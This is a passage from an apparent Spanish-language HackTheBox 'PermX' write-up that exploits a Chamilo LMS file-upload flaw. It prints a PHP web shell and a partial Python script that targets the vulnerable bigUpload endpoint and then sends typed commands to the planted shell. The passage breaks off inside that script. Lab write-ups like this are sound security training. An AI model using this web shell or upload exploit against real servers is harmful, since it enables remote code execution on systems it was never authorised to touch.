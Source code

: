 Si vemos el PoC del reporte, [Enlace al Reporte](https://starlabs.sg/advisories/23/23-4220/), podremos ver que necesitamos de un archivo PHP que contendra nuestro codigo malicioso.
![](/assets/img/HTB_PermX/P9.png)
Crearemos un exploit que nos automatice la subida del shell, y tambien poder interactuar con nuestra shell.
> No olvidemos crear nuestro archivo malicioso.

```php
<?php
system($_GET['cmd']);
?>
```
Ahora bien, aqui esta el codigo que uso para automatizar esto:
```python
#!/bin/python3
import requests

##Script creado para explotar un exploit tipo RCE en el servicio de versiones <=1.11.24 de Chamillo 

HOST='http://lms.permx.htb/' #Define el host
ENDPOINT = 'main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported' #ENDPOINT donde esta la vuln
FILEUPLOAD = 'main/inc/lib/javascript/bigupload/files/' #CARPETA DONDE SE SUBE EL ARCHIVO MALICIOSO

def comprobarVulnerabilidad() -> bool:
    response = requests.get(f'{HOST}{ENDPOINT}') 
    if response.status_code == 200:
        return True
    else:
        return False

def comprobarCarpetaSubidas() -> bool:
    response = requests.get(f'{HOST}{FILEUPLOAD}')
    if response.status_code == 200:
        return True
    else:
        return False
    
def RCE(url):
    print("\n[+] Escribe \'#EXIT\' para finalizar")
    while True:
        cmd = input("[$]>>> ")
        req = requests.get(url+"?cmd="+cmd)
```